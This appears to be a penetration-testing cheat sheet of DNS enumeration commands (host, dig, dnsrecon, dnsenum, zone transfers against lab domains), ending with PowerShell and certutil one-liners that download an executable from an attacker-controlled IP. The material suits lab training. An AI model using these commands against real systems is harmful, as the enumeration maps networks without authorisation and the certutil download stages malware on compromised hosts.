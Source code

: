 `host megacorp.com`

> By default, host command looks for A records, but we can also enumarate mailserver records nd TXT records.

`$ host -t mx megacorpone.com` `$ host -t txt megacorpone.com`

Automating the hostname enumeration: `for ip in $(cat wordlistlist.txt); do host $ip.domain.com; done` This will try every hostname and see if it resolves

_DIG_

DIG REVERSE LOOKUP

`dig @10.13.37.10 -x 10.13.37.10`

`dig axfr @10.10.11.158`

`dig ANY @<DNS\_IP> <DOMAIN>`

_Zone transfer_

> A zone transfer is basically a database replication between related DNS servers in which the zone file is copied from a master DNS server to a slave server. The zone file contains a list of all the DNS names configured for that zone. Zone transfers should only be allowed to authorized slave DNS servers but many administrators misconfigure their DNS servers, and in these cases, anyone asking for a copy of the DNS server zone will usually receive one. This is equivalent to handing a hacker the corporate network layout on a silver platter. All the names, addresses, and functionality of the servers can be exposed to prying eyes.

The host command syntax for performing a zone transfer is as follows: `host -l <domain name> <dns server address>` i.e: `host -l megacorpone.com ns1.megacorpone.com`

_DNS RECON_

> DNSRecon193 is an advanced, modern DNS enumeration script written in Python. Running dnsrecon against megacorpone.com using the -d option to specify a domain name, and -t to specify the type of enumeration to perform (in this case a zone transfer), produces the following output:

`dnsrecon -d megacorpone.com -t axfr` :: axfr is domain transfer

> To use dns recon in bruteforce mode

`dnsrecon -d megacorpone.com -D ~/list.txt -t brt` :: brt means bruteforce

_DNS ENUM_

> DNSEnum is another popular DNS enumeration tool. To show a different output, let’s run dnsenum against the zonetransfer.me domain (which is owned by DigiNinja194 and specifically allows zone transfers):

`dnsenum zonetransfer.me`

***

**INVOKE WEB REQUESTS**

`Powershell -c Invoke-WebRequest -Uri "<http://ip:port/file>" -OutFile <path>/filename`

**CERTUTILL**

`certutil.exe -urlcache -f <http://10.0.0.5/40564.exe> bad.exe`

